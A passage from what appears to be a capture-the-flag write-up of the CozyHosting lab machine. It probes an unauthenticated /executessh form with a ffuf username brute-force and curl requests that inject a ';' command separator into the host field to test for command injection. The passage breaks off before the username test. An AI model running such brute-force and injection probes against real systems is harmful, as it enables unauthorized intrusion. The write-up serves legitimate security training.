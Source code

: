 The form does a POST request to the endpoint `/executessh` with two parameters: `host` and `username`. Above the form, there is a message saying: "For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file." We can suppose the website execute an SSH query for the specified user.
If we send `cozyhosting.htb` with the username `kanderson`, an error is raised: "Host key verification failed." It seems to mean that the user "kanderson" does not have the private key. We can check the host name is correct by sending a request with a bad hostname. In that case, you get the error: "ssh: Could not resolve hostname dsqqdsd: Temporary failure in name resolution". This is the error message provided by ssh. We can suppose this form is vulnerable to command injection. Meanwhile, we can try to bruteforce the username with:
```
$ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt:USERNAME -u http://cozyhosting.htb/executessh -X POST -d "host=cozyhosting.htb&username=USERNAME" -H 'Content-Type: application/x-www-form-urlencoded' -fr "Host key verification failed" -ic -r
```
Indeed, it seems that this endpoint does not require authentication. However, I got no results.
### Command injection
It appears that the data sent through the form `/executessh` is directly used in a command. Let's create a curl command that will send this form and, then, we will tweak it to find any potential vulnerabilities:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host cozyhosting.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.88
*   Trying 10.129.229.88:80...
* Connected to cozyhosting.htb (10.129.229.88) port 80
> POST /executessh HTTP/1.1
> Host: cozyhosting.htb
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 39
> 
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 16 Mar 2024 16:42:00 GMT
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=Host key verification failed.
< Connection: keep-alive
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 0
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< 
* Connection #0 to host cozyhosting.htb left intact
```
I used to `-v` option to see the request and the response. In the response, we can see the error that is returned in the `Location` header: "Host key verification failed". To find a command injection, I will try to add a `;` in one of the fields to check what happens. Indeed, `;` is the command separator for shell commands. Let's see what happens for the `host` parameter:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb;&username=kanderson' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=Invalid hostname!
```
The error is now "Invalid hostname". It seems there is a kind of validation of the `host` parameter. Let's look at the `username` parameter:
```
```